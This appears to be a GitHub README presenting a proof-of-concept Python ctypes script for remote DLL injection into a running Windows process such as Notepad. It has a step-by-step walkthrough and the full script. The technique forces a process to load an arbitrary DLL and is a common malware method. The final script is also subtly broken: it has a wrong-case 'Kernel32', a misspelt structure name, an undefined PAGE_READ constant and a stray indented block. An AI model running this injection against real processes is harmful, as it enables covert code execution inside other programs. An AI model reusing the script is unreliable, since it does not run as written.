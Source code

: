 # Remote DLL Injection
## Overview
This POC demonstrates a technique known as remote DLL injection. The goal is to force a target process (for example, Notepad) to load an external DLL (Dynamic Link Library). The process involves three main steps:

  1. Allocating Memory in the Remote Process: Reserve a block of memory in the target process’s address space.
  2. Writing the DLL Path: Write the path (as a byte string) of the DLL into the allocated memory.
  3. Forcing the DLL to Load: Use the Windows API function LoadLibraryA—located via GetProcAddress on kernel32.dll—by creating a remote thread that calls it, passing the address of the DLL path in memory.

This technique is commonly used for injecting code into a process for either legitimate purposes (such as extending the functionality of a running application) or by malware for nefarious reasons.

## Detailed Code Walkthrough

1. Importing Modules and Defining API Functions
    1. ctypes and wintypes:
       The code imports the ctypes module and its wintypes submodule. This allows the script to interact directly with Windows API functions. The API calls are performed by calling functions in kernel32.dll, a core Windows DLL.

    2. Function Prototypes:
       The POC defines the argument types (argtypes) and return types (restype) for the following functions:
         1. OpenProcess: Opens an existing process given its process ID (PID) with specific access rights.
         2. VirtualAllocEx: Allocates a block of memory within the address space of the target process.
         3. WriteProcessMemory: Writes data (the DLL path) into the allocated memory in the remote process.
         4. GetModuleHandleA: Retrieves a handle to a loaded module (here, kernel32.dll).
         5. GetProcAddress: Finds the address of an exported function (in this case, LoadLibraryA) within a module.
         6. CreateRemoteThread: Creates a new thread in the remote process that will call the specified function—in our case, to load the DLL.

    3. Defining Structures:
       The code also defines the _SECURITY_ATTRIBUTES structure. Although this structure isn’t used in every detail, it is necessary when creating a remote thread to specify attributes like whether handles are inherited by child processes.

2. Preparing the Injection Payload
   1. DLL Path String:
   A byte string variable named dll holds the path to the compiled DLL file that you intend to inject. This must be a valid
   path that the target process can access.

   2. Process Identification:
   The variable pid is set to the target process’s ID (for example, Notepad’s PID). This value is used to open the process and
   manipulate its memory.

3. Opening the Target Process
   1. Using OpenProcess:
   The OpenProcess function is called with the PROCESS_ALL_ACCESS flag, which grants the maximum level of access required for
   injection.
   If OpenProcess fails (returns a NULL handle), an error is raised. Successful retrieval of a valid handle is critical for subsequent operations.
## Code
   ```bash
handle = OpenProcess(PROCESS_ALL_ACCESS, False, pid)
if not handle:
    raise WinError()
print("Handle obtained ⇒", hex(handle))
   ```
4. Allocating Memory in the Remote Process
   1. VirtualAllocEx Call:
   VirtualAllocEx is used to reserve a block of memory in the target process’s address space.
   The size of the memory allocated is determined by the length of the DLL path string. The allocation is done using the
   flags MEM_COMMIT | MEM_RESERVE, and the memory is initially marked as PAGE_READWRITE so that it can be modified.
## Code
   ```bash
remote_memory = VirtualAllocEx(handle, False, len(dll) + 1, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)
if not remote_memory:
    raise WinError()
print("Memory allocated ⇒", hex(remote_memory))
   ```
5. Writing the DLL Path into Remote Memory
   1. WriteProcessMemory Call:
   Once memory is allocated, the DLL path is written into the remote process using WriteProcessMemory.
   This step places the path (as a string) into the process’s memory space so that it can later be used by the LoadLibraryA
   function.
## Code
   ```bash
write = WriteProcessMemory(handle, remote_memory, dll, len(dll) + 1, None)
if not write:
    raise WinError()
print("Bytes written ⇒", dll)
   ```
6. Locating the LoadLibraryA Function
   1. Retrieving the Address of LoadLibraryA:
   The function GetModuleHandleA is used to get a handle for kernel32.dll—a critical module that contains the LoadLibraryA
   function.
   Then, GetProcAddress retrieves the address of LoadLibraryA within that module.
   This address will be the entry point for loading the DLL into the remote process.
## Code
   ```bash
load_lib = GetProcAddress(GetModuleHandle(b"kernel32.dll"), b"LoadLibraryA")
print("LoadLibrary address ⇒", hex(load_lib))
   ```
7. Creating a Remote Thread to Load the DLL
   1. Executing the DLL Injection:
   With the address of LoadLibraryA and the memory location holding the DLL path, CreateRemoteThread is invoked.
   This function creates a new thread in the target process that begins execution at the LoadLibraryA function, with the
   argument being the address of the DLL path in remote memory.
   When the thread runs, LoadLibraryA loads the DLL, thus completing the injection.
## Code
   ```bash
rthread = CreateRemoteThread(handle, None, 0, load_lib, remote_memory, EXECUTE_IMMEDIATELY, None)
   ```

## Code ~ Remote DLL Injection
## Code
   ```bash
from ctypes import *
from ctypes import wintypes

kernel32 = windll.kernel32
LPCTSTR = c_char_p
SIZE_T = c_size_t

OpenProcess = kernel32.OpenProcess
OpenProcess.argtypes = (wintypes.DWORD, wintypes.BOOL, wintypes.DWORD)
OpenProcess.restype = wintypes.HANDLE

VirtualAllocEx = kernel32.VirtualAllocEx
VirtualAllocEx.argtypes = (wintypes.HANDLE, wintypes.LPVOID, SIZE_T, wintypes.DWORD, wintypes.DWORD)
VirtualAllocEx.restype = wintypes.LPVOID

WriteProcessMemory = Kernel32.WriteProcessMemory
WriteProcessMemory.argtypes = (wintypes.HANDLE, wintypes.LPVOID, wintypes.LPCVOID, SIZE_T, POINTER(SIZE_T))
WriteProcessMemory.restype = wintypes.BOOL

GetModuleHandle = kernel32.GetModuleHandleA
GetModuleHandle.argtypes = (LPCTSTR, )
GetModuleHandle.restype = wintypes.HANDLE

GetProcAddress = kernel32.GetProcAddress
GetProcAddress.argtypes = (wintypes.HANDLE, LPCTSTR)
GetProcAddress.restypes = wintypes.LPVOID

class _SECURITY_ATTRIBUTES(Structure):
	_fields_ = [('nlengths', wintypes.DWORD),
							('lpSecurityDescriptor', wintypes.LPVOID),
							('bInheritHandle', wintypes.BOOL),]

SECURITY_ATTRIBUTES = _SECURITY_ATTRIBUTES
LPSECURITY_ATTRIBUTES = POINTER(_SECUIRTY_ATTRIBUTES)
LPTHREAD_START_ROUTINE = wintypes.LPVOID

CreateRemoteThread = kernel32.CreateRemoteThread
CreateRemoteThread.argtypes = (wintypes.HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, wintypes.LPVOID, wintypes.DWORD, wintypes.LPDWORD)
CreateRemoteThread.restype = wintypes.HANDLE

MEM_COMMIT = 0x00001000
MEM_RESERVE = 0x00002000
PAGE_READWRITE = 0x04
EXECUTE_IMMEDIATELY = 0X0
PROCESS_ALL_ACCESS = (0X000F0000 | 0X00100000 | 0X00000FFF)

dll = b"<path to the compiled dll file>"

pid = 2160 #process id of a process such as Notepad

handle = OpenProcess(PROCESS_ALL_ACCESS, False, pid)

if not handle:
	raise WinError()
	
print("Handle obtained => {0:X}".format(handle))

remote_memory = VirtualAllocEx(handle, False, len(dll) + 1, MEM_COMMIT | MEM_RESERVE, PAGE_READ)

	if not remote_memory:
		raise WinError()

print("Memory allocated => ", hex(remote_memory))

write = WriteProcessMemory(handle, remote_memory, dll, len(dll) + 1, None)

if not write:
	raise WinError()

print("Bytes written => {}".format(dll))

load_lib = GetProcAddress(GetModuleHandle(b"kernel32.dll"), b"LoadLibraryA")

print("LoadLibrary address => ", hex(load_lib))

rthread = CreateRemoteThread(handle, None, 0, load_lib, remote_memory, EXECUTE_IMMEDIATELY, None)
   ```
